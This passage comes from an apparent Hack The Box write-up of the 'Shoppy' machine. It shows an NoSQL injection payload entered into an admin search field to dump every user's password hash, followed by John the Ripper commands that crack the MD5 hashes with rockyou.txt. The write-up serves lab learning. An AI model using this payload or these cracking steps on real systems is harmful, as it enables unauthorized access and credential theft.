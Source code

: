 ![Admin dashboard](/assets/img/post/htb-machines-shoppy/admin.png)
_We successfully exploit the NoSQL injection vulnerability in order to bypass authentication_

It works! Now we'll see what actions we can take as the admin to get some leverage.

### Admin Dashboard

There seems to be an option to search for users. When we enter "admin", we get an option to download an export which contains a password hash for the user. When we enter "adm" though, it claims there are no results. This suggests that our query has to match an exact username instead of just a similar username. Since we were able to utilize NoSQL injection once, why not try it again? Entering `'||''=='`, will return an export of all users.

#### Hash Cracking

Let's try to crack the hashes we found for the users **admin** and **josh** with [John the Ripper](https://github.com/openwall/john) and `rockyou.txt`{:.filepath}.

```bash
# bryan@attacker
admin_hash="" # admin's hash here
josh_hash=""  # josh's hash here
echo "admin:$admin_hash" > ./md5.john
echo "josh:$josh_hash"  >> ./md5.john
john ./md5.john \
  --format="Raw-MD5" \
  --wordlist="rockyou.txt" \
```
{:.nolineno}
